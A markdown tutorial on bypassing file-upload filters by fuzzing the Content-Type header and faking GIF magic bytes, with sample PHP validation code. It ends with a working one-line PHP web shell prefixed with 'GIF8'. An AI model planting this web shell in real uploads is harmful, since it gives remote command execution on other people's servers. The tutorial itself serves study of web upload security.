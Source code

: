 # Type Filters
***
#### There are two common methods for validating the file content : **Content-type Header** or **File Content**.

### Content-Type
#### We can detect if a web server is using this validation method by trying a validated extension (ex. shell.jpg) containing a web shell.
#### Example of Content-Type verification in PHP:
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

#### We may start fuzzing the Content-Type header with [SecLists' Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt) to see which types are allowed.
#### When we want to fuzz for only image content-types we can  limit our scan by doing the following:
```bash
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/Web/content-type.txt
$ cat content-type.txt | grep 'image/' > image-content-types.txt
```
#### **NOTE**: A file upload HTTP request has two Content-Type headers, one in the bottom for the attached file, and another for the full request (at the top). In some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as **POST** data), furthermore we will need to modify the main Content-Type header.

### MIME-Type (internet standard that determines the type of  file through its general format and bytes structure)
#### This is done by inspecting the first few bytes of the file's content, which contain the [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) or [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures)
#### **NOTE**: A GIF image is particularly easy to mimic because its file signature begins with ASCII characters that can be printed, unlike many other image formats that use non-printable bytes. Since the string "GIF8" is a shared signature for both types of GIF files, replicating just this part is often sufficient to create a convincing imitation of a GIF image.

####  For instance , we can use the **file** command on UNIX systems to find the file type through the MIME type.
```bash
$ echo "this is a text file" > text.jpg 
$ file text.jpg 

text.jpg: ASCII text
```
#### As we see, the file's MIM type is **ASCII text** even though its extension is `.jpg`. Nonetheless , if we type `GIF8` in the beginning of the file, it will be considered as a GIF image instead.
#### Example:
```bash
$ echo "GIF8" > text.jpg 
$file text.jpg

text.jpg: GIF image data
```
#### Example in PHP of MIME type verification of an uploaded file:
```bash
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

#### Uploading a WebShell having a MIME type GIF, by imitating the GIF magic bytes.
```php
GIF8
<?php system($_GET['cmd']); ?>
```
